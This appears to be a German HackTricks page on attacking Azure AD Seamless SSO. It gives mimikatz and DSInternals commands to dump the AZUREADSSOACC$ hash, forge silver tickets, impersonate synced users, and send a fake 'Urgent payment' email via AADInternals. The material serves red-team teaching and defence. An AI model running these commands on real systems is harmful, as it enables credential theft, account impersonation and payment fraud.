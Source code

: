 # Az - Nahtloses SSO

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories einreichen.

</details>

## Grundlegende Informationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) meldet Benutzer automatisch an, wenn sie auf ihren Unternehmensgeräten mit Ihrem Unternehmensnetzwerk verbunden sind. Wenn aktiviert, müssen Benutzer **ihre Passwörter nicht eingeben, um sich bei Azure AD anzumelden**, und in der Regel nicht einmal ihre Benutzernamen eingeben. Diese Funktion ermöglicht es Ihren Benutzern, einfachen Zugriff auf Ihre cloudbasierten Anwendungen zu erhalten, ohne zusätzliche lokale Komponenten zu benötigen.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Grundsätzlich meldet Azure AD Seamless SSO Benutzer an, wenn sie **auf einem lokal verbundenen PC** sind.

Es wird sowohl von [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) als auch von [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) unterstützt.

Desktop SSO verwendet **Kerberos** zur Authentifizierung. Wenn konfiguriert, erstellt Azure AD Connect ein **Computerkonto namens AZUREADSSOACC`$`** im lokalen AD. Das Passwort des `AZUREADSSOACC$`-Kontos wird **im Klartext an Azure AD gesendet** während der Konfiguration.

Die **Kerberos-Tickets** sind **verschlüsselt** mit dem **NTHash (MD4)** des Passworts und Azure AD verwendet das gesendete Passwort zum Entschlüsseln der Tickets.

**Azure AD** stellt einen **Endpunkt** (https://autologon.microsoftazuread-sso.com) bereit, der Kerberos-**Tickets** akzeptiert. Der Browser des domänenverbundenen Computers leitet die Tickets an diesen Endpunkt für SSO weiter.

### Lokal -> Cloud

Das **Passwort** des Benutzers **`AZUREADSSOACC$` ändert sich nie**. Daher könnte ein Domänenadministrator den **Hash dieses Kontos kompromittieren** und ihn dann verwenden, um **Silber-Tickets zu erstellen**, um sich mit **beliebigen lokal synchronisierten Benutzern** bei Azure anzumelden:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Mit dem Hash können Sie jetzt **Silber-Tickets generieren**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Um das Silberticket zu nutzen, sollten die folgenden Schritte ausgeführt werden:

1. **Browser starten:** Mozilla Firefox sollte gestartet werden.
2. **Browser konfigurieren:**
- Navigieren Sie zu **`about:config`**.
- Setzen Sie die Einstellung für [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) auf die angegebenen [Werte](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Zugriff auf die Webanwendung:**
- Besuchen Sie eine Webanwendung, die in die AAD-Domäne der Organisation integriert ist. Ein häufiges Beispiel ist [Office 365](https://portal.office.com/).
4. **Authentifizierungsprozess:**
- Geben Sie am Anmeldebildschirm den Benutzernamen ein und lassen Sie das Passwortfeld leer.
- Drücken Sie zur Fortsetzung entweder TAB oder ENTER.

{% hint style="success" %}
Dies umgeht nicht die MFA, wenn sie aktiviert ist.
{% endhint %}

#### ~~Erstellen von Kerberos-Tickets für Cloud-only-Benutzer~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Wenn die Active Directory-Administratoren Zugriff auf Azure AD Connect haben, können sie **SID für jeden Cloud-Benutzer festlegen**. Auf diese Weise können Kerberos-**Tickets auch für Cloud-only-Benutzer erstellt werden**. Die einzige Voraussetzung ist, dass die SID eine korrekte [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) ist.

{% hint style="danger" %}
Das Ändern der SID von Cloud-only-Admin-Benutzern ist jetzt **von Microsoft blockiert**.\
Weitere Informationen finden Sie unter [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud über Ressourcenbasierte eingeschränkte Delegierung <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Jeder, der Computerkonten (`AZUREADSSOACC$`) im Container oder OU verwalten kann, in dem dieses Konto sich befindet, kann **eine ressourcenbasierte eingeschränkte Delegierung über das Konto konfigurieren und darauf zugreifen**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referenzen

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Ich bin in Ihrer Cloud und lese alle E-Mails - Hacking von Azure AD über Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

